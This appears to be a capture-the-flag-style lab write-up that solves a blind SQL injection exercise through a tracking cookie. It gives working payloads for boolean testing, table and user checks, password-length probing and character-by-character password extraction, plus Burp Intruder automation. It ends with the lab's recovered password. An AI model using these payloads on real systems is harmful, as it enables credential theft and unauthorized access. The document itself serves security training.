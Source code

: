 # Blind SQL injection with conditional responses
# Objective
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. 
\
The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows. \
\
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.\
\
To solve the lab, log in as the administrator user.

# Solution
![](Images/image.png)

Expected query structure concerning TrackingId:\
```
SELECT TrackingId FROM TrackingIdTable WHERE TrackingId='8e4W3X5FoxstfJs7'
```

## Blind SQL Injection
If TrackingId is correct (exists in database) application return “Welcome back!” message (True).
|![](Images/image-1.png)|
|:--:| 
| *Cookie value: `TrackingId=8e4W3X5FoxstfJs7' and 1=1--` returns True* |

If TrackingId is incorrect application does NOT return “Welcome back!” message (False).
|![](Images/image-2.png)|
|:--:| 
| *Cookie value: `Cookie: TrackingId=8e4W3X5FoxstfJs7' and 1=0--` returns False* |

## Checking that the users table exists
```
TrackingId=8e4W3X5FoxstfJs7' and (select 'u' from users LIMIT 1)='u'--
```
The query above returns true therefore, the `user` table exists in database.
![](Images/image-3.png)

## Checking that the user administrator exists
```
TrackingId=8e4W3X5FoxstfJs7' and (select username from users where username='administrator')='administrator'--
```
The query above returns true therefore the user `administrator` exists.
![](Images/image-4.png)

## Determining the length of the administrator’s password
```
TrackingId=8e4W3X5FoxstfJs7' and (select username from users where username='administrator' and LENGTH(password)>19)='administrator'-- -> True
TrackingId=8e4W3X5FoxstfJs7' and (select username from users where username='administrator' and LENGTH(password)>20S)='administrator'-- -> False
```
![](Images/image-5.png)

## Determining the length of the administrator’s password using Intruder

|![](Images/image-6.png)|
|:--:| 
| *Setting payload position* |
|![](Images/image-7.png)|
| *Payloads settings and results* |

## Password Enumeration - Intruder - Sniper
```
TrackingId=8e4W3X5FoxstfJs7' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'n'--
```
The query above returns true therefore administrator's first character from password is “n”.

|![](Images/image-8.png)|
|:--:| 
| *Brute force result* |
|![](Images/image-9.png)|
| *Check that "n" is first letter in password* |

This can be reapeated 20 times or done using Intruder - Cluster Bomb mode

## Password Enumeration - Intruder - Cluster Bomb

|![](Images/image-10.png)|
|:--:| 
| *Payload positions* |
|![](Images/image-11.png)|
| *First payload settings* |
|![](Images/image-12.png)|
| *Second payload settings* |
|![](Images/image-13.png)|
| *Results* |

Password: nqil2i5ylo5bw3gr7nu7